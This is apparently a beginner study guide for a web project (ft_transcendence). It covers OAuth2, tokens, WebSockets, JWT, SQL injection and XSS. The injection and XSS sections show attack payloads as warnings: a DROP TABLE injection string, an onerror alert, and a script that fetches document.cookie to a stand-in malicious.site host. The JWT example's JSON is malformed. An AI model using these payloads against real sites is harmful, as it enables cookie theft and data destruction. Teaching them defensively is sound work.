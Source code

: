 API - a set of rules and protocols that allows different software applications to communicate with each other

---
#### OAuth2

OAuth2 is an authorization protocol that lets users log in using external services (e.g. Google, GitHub, school intranet), without sharing their password directly with your site. Instead, it exchanges secure tokens to verify identity between systems.

### 🔐 Why Use OAuth2?
- Offloads credential management to trusted providers
- Simplifies account creation and login
- Useful if you're connecting to platforms like the 42 API or any centralized user database

### ⚠️ Restrictions in This Project

You **cannot use libraries or tools** that:
- Provide a **complete out-of-the-box OAuth solution** (e.g. `passport`, `Auth0`, `NextAuth`)
- Implement the entire login flow on your behalf

✅ You **can** use:
- Small utilities that handle **subtasks** (e.g. parsing a redirect URL or encoding a token)
- Manual integration: sending your own requests to an OAuth provider, handling redirects, and managing tokens manually

🧠 Note: OAuth2 is **not required** for ft_transcendence. You can implement a local alias system or custom login instead.

<details>
<summary><em>Example (Manual OAuth2 Flow)</em></summary>

Let’s say your team chooses to use the 42 API for user login. Here’s how you could approach it **without violating constraints**:

1. **Redirect user to 42’s login URL** with proper client ID and scopes  
   → You can hardcode or generate this manually

2. **User logs in**, and 42 redirects back to your site with an authorization code  
   → You capture this code in your frontend or backend

3. **Exchange the code for a token** using a POST request from your server  
   → Manual `curl` or native PHP logic — no external library needed

4. **Store the token** securely (server-side or in a cookie)  
   → Use it to authenticate the user across the session

This way, you’re respecting the rule: **you’re not importing a full OAuth module**, you’re stitching the flow together piece by piece.

</details>

---


## Token based authentication

A method where users are identified using a temporary, secure token (usually a string or session ID) issued after login. The server validates this token with each action to confirm the user’s identity, without needing to store passwords or credentials long-term.

- Can be used with simple alias systems or full login flows
- Does **not require OAuth2**
- Useful for verifying players during tournaments, chat messages, or game submissions

<details>
<summary><strong>Example</strong></summary>

> Think of how you created a session in **webserv**: after a user logged in, you might have stored a session ID in a cookie or header. Each subsequent request checked that ID to confirm the user was valid — *that's token-based authentication.*
>
> Similarly, in **ft_irc**, each client had to introduce itself (e.g. with a nickname) before sending commands. While it wasn't technically a "token," the concept is similar: assign an identity, and validate it before letting the user interact.
>
</details>
This approach lets you build custom lightweight security for things like tournament actions, chat messages, and match submissions, even if you're not using full login systems or external identity providers.

---

## Websockets

WebSockets are a protocol that creates a **persistent, two-way connection** between a user's browser and your server. Unlike traditional HTTP (which sends a request and then closes), WebSockets stay open, making them ideal for live interaction.

### 🔧 What They’re Used For
- **Real-time Pong gameplay** (syncing ball and paddle positions)
- **In-game chat** (players see each other's messages instantly)
- **Live match updates** (e.g. "Next match: Alice vs Bob")
- **Player status events** (disconnects, score changes)

### 🔄 How They Keep Data Live
Once a WebSocket connection is opened, both client and server can push data to each other **at any time**, without needing to refresh the page or send separate HTTP requests.

<details>
<summary><strong>Example1</strong></summary> 
   
> Bob moves his paddle → browser sends a WebSocket message to server  
> Server immediately forwards that to Alice’s browser  
> Alice sees Bob’s paddle move, in real time

This keeps gameplay smooth, without delay or polling.
</details>



### 🛡️ Security & Sanitation
WebSockets are just a data channel, they don’t sanitize anything by default.

You **must** manually clean and validate anything users send:
- **On the server**, before storing or rebroadcasting (SQLi risk)
- **On the client**, before displaying in the DOM (XSS risk)

<details>
<summary><strong>Example2</strong></summary>
 
> A user sends a chat message with weird code or unexpected HTML  
> If you display it without filtering, it could break your page — or worse, run scripts  
> Always treat WebSocket messages like *untrusted input*

### 🧪 Beginner-Friendly Example
WebSockets commonly transmit data using lightweight JSON messages , here is a clean and maliciouse message:

```json
{
  "event": "chat",
  "sender": "Alice",
  "message": "Good luck!"
}

{
  "event": "chat",
  "sender": "Alice",
  "message": "<img src='x' onerror='alert(\"Hacked!\")'>"
}
```
</details>

---

### JWT

JWT stands for *JSON Web Token*. It's a compact, secure string used to verify a user's identity after login or registration.
After a successful login, the server creates a token using a **payload** (containing user data) and **signs** it with a secret key, typically using an algorithm like HMAC SHA256.
The final token is sent to the browser, and used in future requests so the server knows who’s interacting without needing to log in again each time.

<details>
<summary><strong>Payload example</strong></summary>
   
```json
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "userId": " 42 "
   "alias": "Alice")"
}
```

the server takes this payload (header and user data) , creates a signiture and applies it to the end of the token

``` <encoded-header>.<encoded-payload>.<signature> ```

</details>



### 🧾 Token storage options
##### Cookies
- Login persist across sessions and browser refresh
- Can be HTTPonly (secure flags) to reduce XSS risk
- Auto sent with requests, ideal for backend validation
- Or store in a session store (like Redis) tied to a cookie token
##### Memory
- (e.g. JS variable)	Temporary login, single session, lost on page reload
- Simpler, useful for lightweight or temporary login

Most teams use Node.js, Python, Go, or PHP for JWT-heavy work because of mature libraries and easy support for hashing, signing, and validation.

---

### 💉 SQL Injection

SQL Injection is a type of attack where malicious users send crafted input that tricks your server into executing unintended database commands.
Instead of behaving like simple form input, the attacker embeds **SQL commands** into the request, potentially altering or destroying data.

### ⚠️ Example (Unsafe Query)
<details>
<summary><strong>unsafe query example</strong></summary>

```sql
SELECT * FROM users WHERE name = 'Alice';
```
An attacker might submit:

```sql
'Alice'; DROP TABLE users; --
```

This tunrs your query into
```sql
SELECT * FROM users WHERE name = 'Alice'; DROP TABLE users; --
```

🧨 Result: Your entire users table gets deleted, all accounts wiped.
</details>

### 🛡️ Typical Prevention
- Use parameterized queries or prepared statements

```sql
SELECT * FROM users WHERE name = ?
```
- Never build SQL queries using raw user input
- Sanitize and validate input server-side, especially for:
   - Login forms
   - Search fields
   - Any user-controlled input that interacts with a database
Backend protects by:

---

### 💉 XSS (Cross-Site Scripting)
Cross-Site Scripting (XSS) is an attack where a user submits malicious content that gets rendered as executable code in someone else's browser.

Often used to:
- Steal cookies or session tokens
- Trick users with fake login prompts
- Break or deface UI content

### ⚠️ Example (Injected Script)
<details>
<summary><strong>injected script example</strong></summary>
   
Attacker sends a chat message:
```html
<script>fetch('https://malicious.site/send?cookies=' + document.cookie)</script>
```

if this is displayed raw in frontend: 

```html
<div>User says: <script>...</script></div>
```
🧨 Result: The script runs in every viewer’s browser, sending their cookies to the attacker.

</details>

🛡️ Typical Prevention
- Sanitize user content before displaying
- Escape <, >, ", ', /, and other unsafe characters
- Use text-safe render methods (e.g. textContent, not innerHTML)
- Set Content Security Policy (CSP) headers to restrict which scripts can run
- Avoid trusting input across chat, comments, forms, or aliases

🧠 TL;DR If someone submits HTML, never render it raw. Treat user input like radioactive material until cleaned.

---
